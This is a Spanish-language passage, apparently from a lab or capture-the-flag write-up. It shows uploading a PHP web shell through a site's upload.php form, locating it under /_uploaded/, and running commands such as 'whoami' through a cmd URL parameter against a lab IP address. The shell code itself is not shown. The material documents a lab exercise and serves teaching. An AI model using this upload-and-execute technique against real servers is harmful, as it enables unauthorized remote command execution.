 
### 🧪 Paso 2 – Subir la shell al servidor

1. En la web de `upload.php`, pulsa “**Select your upload**”.
    
2. Elige el archivo `shell.php`.
    
3. Sube el archivo.


### 🔎 Paso 3 – Buscar tu shell en `/uploaded`

Tu shell debería estar disponible en:

```bash
http://10.129.95.184/_uploaded/shell.php
```

![](../img/62a342f16995b2b94703148309838761%201.png)

### 💣 Paso 4 – Ejecutar comandos

Prueba en el navegador:

```bash
http://10.129.95.184/_uploaded/shell.php?cmd=whoami
```

![](../img/3e5009389702c7735c9fdd6e07027f60.png)
